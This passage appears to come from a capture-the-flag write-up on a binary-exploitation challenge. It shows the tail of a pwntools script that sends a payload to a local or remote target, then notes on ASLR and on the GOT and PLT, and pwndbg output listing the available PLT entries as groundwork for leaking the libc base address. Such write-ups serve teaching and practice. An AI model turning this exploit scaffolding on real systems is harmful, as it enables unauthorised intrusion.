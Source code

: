```python

    # Send the payload
    proc.clean()
    proc.sendline(payload)
    with open ('input.txt', 'wb') as out:
        out.write(payload)

    print(b"trying payload", payload)
    res = proc.recvall(timeout=10)
    
    proc.interactive()

    print(bytes.decode(res))

def run_remote():
    conn = remote(REMOTE_SERVER, REMOTE_PORT)
    pwn_pet_compagnion(conn)

def run_bin_local(process_path: str):
    proc = process([process_path])
    pwn_pet_compagnion(proc)

def main():
    run_bin_local(LOCAL_FILE_PATH)
    #run_remote()

if __name__ == '__main__':
    main()

```

After some research, i understood 2 things:
- GDB addresses aren't always the same than the real program
- ASLR on the machine can happen even if the binary has no PIE

More explanations about GOT and PLT, since i might need to use them !

```
GOT, or Global Offset Table, holds addresses of functions that are dynamically linked within the binary. These are addresses that aren't known at the time the program was compiled and linked, therefore meaning they don't get resolved until the program actually runs. As such, certain function addresses are provided by a library, or in this case, by libc. The purpose of the GOT is to reduce the time needed to find calls to functions every time they're used, so rather than having to search through the libc library each time, they're stored in a table ready to be reused.

PLT, or Procedure Linkage Table, is pointed to by the GOT. The PLT is effectively a stub that then calls the dynamic linker with the name of the function that's been requested.
```

So, what we have to do is to determine the base address of glibc, since it changes on every run of the binary.

Most of the writeups i've seen uses the "puts function". The issue is that we don't have access to these functions:
```
pwndbg> plt

Section .plt 0x4004e0-0x400520:
0x4004f0: write@plt
0x400500: read@plt
0x400510: setvbuf@plt
```
